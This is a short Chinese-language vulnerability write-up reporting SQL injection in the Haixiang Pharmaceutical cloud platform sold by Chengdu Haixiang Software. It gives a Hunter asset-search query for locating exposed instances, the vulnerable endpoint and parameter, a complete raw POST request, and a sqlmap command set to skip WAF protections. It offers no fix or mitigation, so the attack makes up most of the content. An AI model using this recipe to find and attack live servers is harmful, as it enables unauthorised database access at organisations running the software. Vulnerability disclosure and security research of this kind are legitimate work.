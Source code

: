 # 成都海翔软件有限公司海翔药业云平台存在 sql 注入

# 一、漏洞简介
成都海翔软件有限公司海翔药业云平台存在 sql 注入

# 二 、影响版本
+ 海翔药业云平台

# 三、资产测绘
+ hunter`web.title="登录海翔"`
+ 特征

![1699025804921-a9adab4f-2528-45d0-8719-7d93e41f497d.png](./img/Ae4tpd8OCz3U9rwy/1699025804921-a9adab4f-2528-45d0-8719-7d93e41f497d-192125.png)

# 四、漏洞复现
漏洞位置，搜索账套处

![1699025926526-01196046-54a6-4f7e-8f35-13d9b5990117.png](./img/Ae4tpd8OCz3U9rwy/1699025926526-01196046-54a6-4f7e-8f35-13d9b5990117-268568.png)

```plain
POST /getylist_login.do HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 13
Connection: close
Cookie: JSESSIONID=CC105C5EED7D5DE8BFCB92D7F4BB74DC; __session:0.5376174871119012:=http:

accountname=1
```

sqlmap

```plain
sqlmap -r 1.txt  --skip-waf --batch
```

![1699025944666-82311c81-9823-4e94-997d-0d8ba7c32ca1.png](./img/Ae4tpd8OCz3U9rwy/1699025944666-82311c81-9823-4e94-997d-0d8ba7c32ca1-162460.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bn1l8e2pqvvd28hg>